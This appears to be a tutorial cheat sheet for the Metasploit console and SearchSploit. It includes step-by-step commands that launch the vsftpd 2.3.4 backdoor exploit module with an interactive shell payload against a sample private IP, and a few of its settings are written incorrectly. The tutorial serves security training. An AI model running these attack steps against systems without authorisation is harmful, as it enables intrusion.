 ## 🎯 Metasploit Framework - `msfconsole`

**Metasploit** is a powerful penetration testing framework that allows security professionals to discover, exploit, and validate vulnerabilities in systems and applications.

### ✅ Features

- Interactive and scriptable CLI (`msfconsole`)
- Huge library of exploits, payloads, and auxiliary modules
- Seamless integration with `nmap`, `searchsploit`, and other tools
- Post-exploitation modules and privilege escalation techniques

### 🚀 Getting Started

- **Launch msfconsole**
  ```bash
  msfconsole -q
  ```

> 💡 `-q` starts Metasploit in quiet mode (less banner clutter)

### 🔍 Example Usage

* **Search for a vulnerability**

  ```bash
  search vsftpd
  ```

* **Use an exploit module**

  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```

* **Set payload and target IP**

  ```bash
  set RHOSTS 192.168.1.100
  set LHOST 192.168.1.0
  set RPORT 80/22/21/3306 etc
  set PAYLOAD cmd/unix/interact
  ```

* **Run the exploit**

  ```bash
  check
  exploit
  ```

---

## 🔍 SearchSploit - Exploit Database CLI

**SearchSploit** is a command-line interface for **Exploit-DB**, used to find known vulnerabilities and exploits stored locally.

### ✅ Features

* Offline access to Exploit Database
* Search exploits by software name, version, platform, or CVE
* Show and copy exploit source code

### ⚙️ Installation

```bash
sudo apt install exploitdb
```

### 🔍 Usage Examples

* **Basic search**

  ```bash
  searchsploit apache 2.4
  ```

* **Search using CVE ID**

  ```bash
  searchsploit CVE-2020-1472
  ```

* **Display exploit details**

  ```bash
  searchsploit -p 12345
  ```

* **Copy exploit to current directory**

  ```bash
  searchsploit -m 12345
  ```

* **Update the local exploit database**

  ```bash
  searchsploit -u
  ```

> 💡 The number (e.g., `12345`) comes from the exploit ID shown in the search results.

---


